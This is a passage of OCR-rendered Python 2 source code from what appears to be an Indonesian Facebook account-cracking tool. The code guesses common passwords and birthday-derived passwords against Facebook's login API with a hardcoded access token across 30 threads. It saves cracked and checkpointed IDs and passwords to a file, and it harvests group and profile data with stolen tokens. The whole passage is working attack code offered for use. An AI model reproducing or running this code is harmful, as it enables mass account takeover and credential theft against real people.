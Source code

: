 pass3 + '\n' oks.append(user+pass3) else: if 'www.facebook.com' in q["error_msg"]: print
'\x1b[1;96m[✖] \x1b[1;93mCEKPOINT' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;93m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;93m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass3 + '\n' cek = open("out/super_cp.txt", "a") cek.write("ID:" +user+ " Pw:" +pass3+"\n") cek.close() cekpoint.append(user+pass3) else: pass4 = 'Bangsat' data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") q = json.load(data) if 'access_token' in q: print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;92m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;92m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass4 + '\n' oks.append(user+pass4) else: if 'www.facebook.com' in q["error_msg"]: print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;93m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;93m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass4 + '\n' cek = open("out/super_cp.txt", "a") cek.write("ID:" +user+ " Pw:" +pass4+"\n") cek.close() cekpoint.append(user+pass4) else: birthday = b['birthday'] pass5 = birthday.replace('/', '') data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") q = json.load(data) if 'access_token' in q: print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;92m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;92m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass5 + '\n' oks.append(user+pass5) else: if 'www.facebook.com' in q["error_msg"]: print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;93m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;93m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass5 + '\n' cek = open("out/super_cp.txt", "a") cek.write("ID:" +user+ " Pw:" +pass5+"\n") cek.close() cekpoint.append(user+pass5) else: pass6 = 'Sayang' data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6") q = json.load(data) if 'access_token' in q: print '\x1b[1;96m[✓] \x1b[1;92mBERHASIL' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;92m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;92m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;92m' + pass6 + '\n' oks.append(user+pass6) else: if 'www.facebook.com' in q["error_msg"]: print '\x1b[1;96m[✖] \x1b[1;93mCEKPOINT' print '\x1b[1;96m[✺] \x1b[1;97mNama \x1b[1;91m : \x1b[1;93m' + b['name'] print '\x1b[1;96m[➹] \x1b[1;97mID \x1b[1;91m : \x1b[1;93m' + user print '\x1b[1;96m[➹] \x1b[1;97mPassword \x1b[1;91m: \x1b[1;93m' + pass6 + '\n' cek = open("out/super_cp.txt", "a") cek.write("ID:" +user+ " Pw:" +pass6+"\n") cek.close() cekpoint.append(user+pass6) except: pass p = ThreadPool(30) p.map(main, id) print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....' print"\033[1;96m[+] \033[1;92mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint)) print("\033[1;96m[+] \033[1;92mCP File tersimpan \033[1;91m: \033[1;97mout/super_cp.txt") raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") super() def grupsaya(): os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\033[1;96m[!] \x1b[1;91mToken invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() try: os.mkdir('out') except OSError: pass os.system('clear') print logo print 42*"\033[1;96m=" try: uh = requests.get('https://graph.facebook.com/me/groups?access_token='+toket) gud = json.loads(uh.text) for p in gud['data']: nama = p["name"] id = p["id"] f=open('out/Grupid.txt','w') listgrup.append(id) f.write(id + '\n') print("\033[1;96m[✓] \033[1;92mGROUP SAYA") print("\033[1;96m[➹] \033[1;97mID \033[1;91m: \033[1;92m"+str(id)) print("\033[1;96m[➹] \033[1;97mNama\033[1;91m: \033[1;92m"+str(nama) + '\n') print 42*"\033[1;96m=" print"\033[1;96m[+] \033[1;92mTotal Group \033[1;91m:\033[1;97m %s"%(len(listgrup)) print("\033[1;96m[+] \033[1;92mTersimpan \033[1;91m: \033[1;97mout/Grupid.txt") f.close() raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() except (KeyboardInterrupt,EOFError): print("\033[1;96m[!] \x1b[1;91mTerhenti") raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() except KeyError: os.remove('out/Grupid.txt') print('\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan') raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() except requests.exceptions.ConnectionError: print"\033[1;96m[✖] \x1b[1;91mTidak ada koneksi" keluar() except IOError: print "\033[1;96m[!] \x1b[1;91mError" raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]") menu() def informasi(): os.system('clear') try: toket=open('login.txt','r').read() except IOError: print"\033[1;91m[!] Token invalid" os.system('rm -rf login.txt') time.sleep(1) keluar() os.system('clear') print logo print 42*"\033[1;96m=" aid = raw_input('\033[1;96m[+] \033[1;93mMasukan ID/Nama\033[1;91m : \033[1;97m') jalan('\033[1;96m[✺] \033[1;93mTunggu sebentar \033[1;97m...') r =